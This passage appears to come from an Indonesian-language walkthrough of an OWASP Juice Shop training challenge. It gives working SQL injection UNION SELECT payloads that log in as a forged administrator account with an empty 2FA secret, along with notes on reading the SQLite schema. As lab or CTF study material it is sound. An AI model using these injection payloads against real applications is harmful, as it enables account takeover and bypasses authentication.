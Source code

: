    Hasil:
  <img width="1919" height="967" alt="Cuplikan layar 2025-09-10 184716" src="https://github.com/user-attachments/assets/3ead6c53-f9f5-43a5-9cc6-dd0a30e393d1" />

4. **Atasi 2FA (kosongkan totpSecret)**

   Payload awal:
   ```bash
   admin' UNION SELECT * FROM (SELECT 45, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op', 'veri', 'Administrator', '1234', '127.0.0.1', '/assets/public/images/uploads/default.svg', '', 0, 1, 2, 3)--
   ```
  <img width="1919" height="1024" alt="Cuplikan layar 2025-09-10 190804" src="https://github.com/user-attachments/assets/c20e51a9-ce57-40d6-8a8f-54adbbd6c36c" />

   Hasil:
   <img width="1919" height="1026" alt="Cuplikan layar 2025-09-10 185137" src="https://github.com/user-attachments/assets/05514e6f-6c52-43ed-91cf-b36cfed44f30" />

4. **Perbaiki error Foreign Key**

   Muncul error:
   ```bash
   FOREIGN KEY constraint failed
   ```
   Ubah kolom id dari 45 menjadi 20

   Payload Akhir:

   ```bash
   admin' UNION SELECT * FROM (SELECT 20, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op', 'veri', 'Administrator', '1234', '127.0.0.1', '/assets/public/images/uploads/default.svg', '', 0, 1, 2, 3)--
   ```
   <img width="1919" height="1019" alt="Cuplikan layar 2025-09-10 190634" src="https://github.com/user-attachments/assets/75338856-8c49-4c48-a089-4ab63dc062e0" />

   Hasil:
   <img width="1919" height="1018" alt="Cuplikan layar 2025-09-10 185226" src="https://github.com/user-attachments/assets/75f17fdc-43d6-493e-81dd-d2c4353ab790" />

### Catatan Penting

Karena struktur tabel sudah diketahui dari soal sebelumnya, kita bisa langsung membuat payload tanpa repot menentukan tipe dan jumlah kolom terlebih dahulu.

Selain itu, munculnya permintaan 2FA saat mencoba login terjadi karena kolom totpSecret di tabel pengguna tidak kosong. Akan tetapi, nilai yang ada pada kolom tersebut sebenarnya tidak valid atau tidak ada tokennya di database sehingga sistem tetap gagal menghasilkan kode autentikasi.

Karena struktur query SQL yang dipakai aplikasi tidak diketahui secara pasti, langkah pertama tetap harus memastikan jumlah kolom yang benar untuk digunakan pada UNION SELECT.

Setelah jumlah kolom yang sesuai ditemukan, kita bisa langsung mengambil seluruh schema database dengan membaca tabel internal sqlite_schema. Dari hasilnya akan terlihat bahwa database yang digunakan aplikasi ini adalah SQLite.

